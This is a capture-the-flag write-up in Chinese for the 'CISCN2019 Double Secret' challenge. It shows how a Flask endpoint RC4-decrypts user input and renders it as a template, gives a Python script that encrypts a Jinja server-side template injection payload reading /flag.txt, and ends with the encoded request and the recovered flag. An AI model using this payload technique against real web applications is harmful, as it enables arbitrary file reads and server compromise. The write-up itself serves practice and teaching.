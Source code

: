 # [CISCN2019 华东南赛区]Double Secret
![](<./img/Pasted image 20230126100744.png>)

```
/
```

```
Welcome To Find Secret
```

```
/robots.txt
```

```
It is Android ctf
```

![](<./img/Pasted image 20230126103511.png>)

```
/secret
```

```
Tell me your secret.I will encrypt it so others can't see
```

```
/secret?secret=a
```

```
4
```

```
/secret?secret=4
```

```
a
```

```
/secret?secret=hello
```

![](<./img/Pasted image 20230126135545.png>)

```python
if (secret==None):
	return 'Tell me your secret.I will encrypt it so others can\'t see'
rc=rc4_Modified.RC4("HereIsTreasure")   #解密
deS=rc.do_crypt(secret)

a=render_template_string(safe(deS))

if 'ciscn' in a.lower():
	return 'flag detected!'
return a
```

是没有见过的加密方式qaq

[RC4加密法](https://zh.wikipedia.org/zh-cn/RC4)

![](<./img/Pasted image 20230126103403.png>)

对称性好可爱～

```python
from urllib.parse import quote,unquote

s_box = [i for i in range(256)]
key = "HereIsTreasure"
j = 0
for i in range(256):
    j = (j + s_box[i] + ord(key[i % len(key)])) % 256
    s_box[i], s_box[j] = s_box[j], s_box[i]

i = 0
j = 0
content = "{{url_for.__globals__['__builtins__']['open']('/flag.txt').read()}}"
k = ""
for ch in content:
    i = (i + 1) % 256
    j = (j + s_box[i]) % 256
    s_box[i], s_box[j] = s_box[j], s_box[i]
    k += chr(ord(ch) ^ s_box[(s_box[i] + s_box[j]) % 256])
print(quote(k))
```

```
/secret?secret=.%14LG%C2%A68%0Day%C3%93%C3%A7%2C%C2%B9%C2%BE%C3%B9%C2%AA5%C2%9FG%0B%C2%88i%C2%A7M5%C2%93-%C2%80%5E%C3%98%3B%C3%A9%3E%C2%B4r%C2%915%C3%8Ao%C3%ABk%C3%9F%C2%83%C2%A5PF%C3%BAU%C2%A3%C2%B1Gk%2C%C3%BF2x%C3%90v%06%C3%96%C2%BCK%15%C2%BD%C3%9D%04%C2%A7
```

```
'read' is not allowed. Secret is flag{bff8e2e3-a9e1-4574-bb7a-abab391e8b66} 
```
